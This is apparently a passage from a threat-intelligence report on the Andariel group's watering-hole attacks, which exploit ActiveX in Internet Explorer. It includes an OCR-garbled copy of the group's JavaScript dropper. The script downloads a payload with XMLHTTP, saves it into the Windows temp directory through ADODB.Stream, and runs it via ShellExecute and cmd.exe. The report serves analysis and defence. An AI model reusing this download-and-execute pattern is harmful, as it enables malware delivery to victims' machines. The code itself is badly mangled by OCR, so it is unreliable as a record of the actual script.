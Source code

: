 [Figure 3] Contents of documents used in the 2017 attack

## 2. Watering Hole (Active-X Vulnerability)

The Andariel group also uses the watering hole technique, which compromise and inject exploit codes into a website. The targeted systems are infected with malware upon accessing the compromised website using a vulnerable web browser. These attacks also limit infection to specific IP address ranges, making it much more difficult to identify the attack targets.

For the watering hole attack, the group usually embeds an Active-X vulnerability exploit codes in the target website. When the target accesses the website via an Internet Explorer browser with a specific Active-X installed the attack proceeds. After successful exploitation of the vulnerability, a JavaScript or VBScript file is created on the user system and this file downloads the malware from a specified address.

| function getXMLHI tpRequest() |
| --- |
| tryingturn new Act (vaXObject( Moxel 2 XMLHTTP. 6.0 ) ) |
| catcheal (itry(return new Active)(b) == ( "Msxall INLHTF 5.0") ) |
| catch(@2) tryireturn new ActiveXObject   Msxm)2,XMLHTP,4,0");} |
| catch(eS) itryireturn new Active XOblect   Msxm12 IMLHITP.3.0 ); } |
| catch(e4)itry(return new ActiveXObject) Mixw12.XMLHIP ) .; |
| catch(e5){tryIreturn new ActiveXObject( Microsoft. XMLHIIP ); J |
| catch(ab) fratuen null 193112 |
| Var sepat XML Hitp Requess () : |
| var Smage Act IveXOblect("ADGE Strega"); |
| S. Ispe= = = = = |
| x. Opent Get . " /rss sit . 0): |
| x. Send() = |
| S. Open();S. Frite(s. responsebody): |
| Var In = L 000 Indows Peters (8) = 11 Jer |
| var for- L Mewindows wtempor conhost the i |
| S. Save ToFile(1n2.2): |
| S.Claspl ); |
| var d m new Entel ). |
| var Hours = d set hours = |
| var Minutes = d. pethingtes == |
| var str = [c at. " + Hours = " = Hinutes = " = In : |
| var D=new ActiveXObject("Shell Application"); |
| 0, Sell Execute(' c Windows Proysteas22000 Bd.ess", [/c '(acho M25 type " + tn2 = ') >' + tn1 = "", ' |
| Q. ShellExecute("c":"WwindowsPaystems. wir,"","open","0): |
| Q.SwillExecute( c.WWwindowsWsystes33Wcwd.axe", '/c dai: C Ww indowsPiceoffludate, is . |
